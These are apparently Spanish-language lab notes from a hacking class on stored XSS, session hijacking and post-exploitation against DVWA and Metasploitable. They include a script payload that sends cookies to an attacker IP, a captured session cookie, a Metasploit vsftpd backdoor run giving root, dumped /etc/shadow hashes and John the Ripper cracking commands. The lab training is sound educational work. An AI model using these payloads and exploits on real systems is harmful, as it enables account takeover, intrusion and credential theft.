


# Hacking Web (client-side) y Post-Explotación

## Agenda y Objetivos de Aprendizaje

Contenido de la sesión
1. Diferenciación entre Ataques Server-Side vs Client Side.
2. Explotación de XSS Almacenado (Stored XSS).
3. Técnica de Secuestro de sesiones (Session Hijacking).
4. Post-Explotación: Cracking de Hashes.
5. Consideraciones éticas y próximos pasos.

Objetivos técnicos
Al finalizar esta clase, serás capaz de: 
* Robar cookies de sesión mediante Javascript inyectado.
* Tomar control de cuentas de usuario sin conocer contraseñas.
* Descifrar contraseñas a partir de hashes del sistema (/etc/shadow).
* Comprender la diferencia crítica entre vectores de ataque dellado del servidor y del cliente.


## Server-side vs Client-side: Paradigmas de ataque

Server-side (Clase 3)
Target: El servidor web
* Inyectamos código que el servidor interpreta (bash, SQ)
* El payload se ejecuta en la infraestructura del servidor
* Ejemplos: Command Injection, SQL Injection
* Compromiso directo del sistema backend

Client-side (clase 4)
Target: el navegador del usuario
* Inyectamos código 

## XSS (Cross-Site Scripting): Fundamentos
Definición técnica
Cross-Site Scripting (XSS) es una vulnerabilidad de seguridad que permite a un atacante inyectar scripts maliciosos en páginas web visualizadas por otros usuarios. Ocurre cuando una aplicación web recibe datos no confiables del usuario y los incluye en su salida HTML sin validación o codificación adecuada.

¿Por qué es peligroso?
El navegador de la víctima no puede distinguir entre el JavaScript legítimo del sitio y nuestro código inyectado. Todo se ejecuta con los mismos privilegios y en el mismo contexto de seguridad. Esto permite al atacante:

Tipos de XSS:
1. Reflected XSS: el payload viaja en la URL. Se ejecuta inmediatamente pero no persiste.
2. Stored XSS: el payload se almacena en la BD. ¡El más peligroso!. Ataca a todos los visitantes.
3. DOM-based XSS: la vulnerabilidad existe en el código JavaScript del lado del cliente.

NOTA: hoy nos enfocaremos en Stored XSS, ya que representa el mayor riesgo para aplicaciones web reales. Un sólo payload puede comprometer a cientos o miles de usuarios sin intervención adicional del atacante.

## Objetivo: ¿Porqué robar Cookies?
Analogía del Sistema de Autenticación
* Login (usuario/contraseña)
* Cookie de sesión (PHPESSID)
* El problema de seguridad

Funcionamiento técnico

Nuestro objetivo de ataque
Usar XSS para extraer el valor de la cookie PHPSESSID de un usuario que ya está autenticado (idealmente un administrador). Unavez obtenido este token:
1. No necesitamos conocer la contraseña de la víctima.
2. No activamos alarmas de "inicio de sesión desde neuva ubicación"
3. Obtenemos todos los privilegios de la víctima instantáneamente
4. Podemos mantener el aceso hasta que expire la sesión (a veces días)

## Sesión Hijacking: El Plan de Ataque Completo
* Fase 1: Inyección del Payload 
* Fase 2: Activación del Exploit
* Fase 3: Exfiltración de Datos
* Fase 4: Suplantación de identidad
* Fase 5: Acceso total

## Práctica: Preparación del Entorno de ataque
Paso 1: Configurar DVWA
1. Iniciar sesión con credenciales predeterminadas:
   * Usuario: admin
   * Pass: password

## Detección de XSS: Proof of Concept
http://192.168.0.2/dvwa/login.php




Antes de seguir desde la VM de Meta hay que eliminar el script cargado:

```
mysql -u root
USE dvwa
DELETE FROM guestbook;
exit
```

Iniciamos servidor en Kali, para recibir los cookies:
```
python3 -m http.server 80
```

En DVWA, XSS stored:
Vamos a inspeccionar página y seleccionamos el campo del mensaje.

<script>new image().src='http://<IP_ATACANTE>:80/?cookie=' +
document.cookie;
</script>

<script>new Image().src="http://192.168.0.217:80/?c=" +
document.cookie;
</script>

Recibo en mi server:
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.0.217 - - [13/Nov/2025 15:12:17] "GET /?c=security=low;%20PHPSESSID=0f02d3c17e626dc2229ef4d447890493 HTTP/1.1" 200 -

En una ventana de incógnito nos vamos a la URL:
http://192.168.0.202/dvwa/login.php

Inspect > Storage > Cookies


Cracking de Hashes
Fase 1 reconocimeinto activo:
nmap -sV -v 192.168.0.202

┌──(kali㉿kali)-[~]
└─$ nmap -sV -v 192.168.0.202
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-13 15:40 EST
NSE: Loaded 47 scripts for scanning.
Initiating ARP Ping Scan at 15:40
Scanning 192.168.0.202 [1 port]
Completed ARP Ping Scan at 15:40, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:40
Completed Parallel DNS resolution of 1 host. at 15:40, 0.00s elapsed
Initiating SYN Stealth Scan at 15:40
Scanning 192.168.0.202 [1000 ports]
Discovered open port 25/tcp on 192.168.0.202
Discovered open port 139/tcp on 192.168.0.202
Discovered open port 22/tcp on 192.168.0.202
Discovered open port 21/tcp on 192.168.0.202
Discovered open port 53/tcp on 192.168.0.202
Discovered open port 445/tcp on 192.168.0.202
Discovered open port 3306/tcp on 192.168.0.202
Discovered open port 111/tcp on 192.168.0.202
Discovered open port 23/tcp on 192.168.0.202
Discovered open port 5900/tcp on 192.168.0.202
Discovered open port 80/tcp on 192.168.0.202
Discovered open port 6667/tcp on 192.168.0.202
Discovered open port 514/tcp on 192.168.0.202
Discovered open port 2121/tcp on 192.168.0.202
Discovered open port 6000/tcp on 192.168.0.202
Discovered open port 8180/tcp on 192.168.0.202
Discovered open port 1099/tcp on 192.168.0.202
Discovered open port 513/tcp on 192.168.0.202
Discovered open port 512/tcp on 192.168.0.202
Discovered open port 5432/tcp on 192.168.0.202
Discovered open port 8009/tcp on 192.168.0.202
Discovered open port 1524/tcp on 192.168.0.202
Discovered open port 2049/tcp on 192.168.0.202
Completed SYN Stealth Scan at 15:40, 0.04s elapsed (1000 total ports)
Initiating Service scan at 15:40
Scanning 23 services on 192.168.0.202
Completed Service scan at 15:41, 62.28s elapsed (23 services on 1 host)
NSE: Script scanning 192.168.0.202.
Initiating NSE at 15:41
Completed NSE at 15:41, 0.07s elapsed
Initiating NSE at 15:41
Completed NSE at 15:41, 0.02s elapsed
Nmap scan report for 192.168.0.202
Host is up (0.000064s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec?
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:10:06:1D (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.72 seconds
           Raw packets sent: 1001 (44.028KB) | Rcvd: 1001 (40.120KB)

searchsploit vsftpd 2.3.4
┌──(kali㉿kali)-[~]
└─$ searchsploit vsftpd 2.3.4
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                   | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                      | unix/remote/17491.rb
---------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

msfconsonsole

┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Enable verbose logging with set VERBOSE true
                                                  
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v6.4.64-dev                          ]
+ -- --=[ 2519 exploits - 1296 auxiliary - 431 post       ]
+ -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > 

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
                                       loit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.0.202
RHOST => 192.168.0.202
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set LHOST 192.168.0.217
[!] Unknown datastore option: LHOST. Did you mean RHOST?
LHOST => 192.168.0.217
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.0.202    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
                                       loit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 192.168.0.202:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.0.202:21 - USER: 331 Please specify the password.
[+] 192.168.0.202:21 - Backdoor service has been spawned, handling...
[+] 192.168.0.202:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.0.217:43259 -> 192.168.0.202:6200) at 2025-11-13 15:48:33 -0500

whoami
root

Postexplotación:
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false

cat /etc/shadow
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::

Combinación de archivos con unshadow:
unshadow passwd.txt shadow.txt > hashes_john.txt

┌──(kali㉿kali)-[~/Desktop]
└─$ unshadow passwd.txt shadow.txt > hashes_john.txt
Created directory: /home/kali/.john

Con inteligencia artificial genera un txt con user pass básicos

rm -f john ~/.john/john.pot

Comando a usar:
john --wordlist=/usr/share/wordlists/rockyou.txt
hashes_john.txt

# Link a clase 
https://www.youtube.com/watch?v=Vy56zcAtDq4 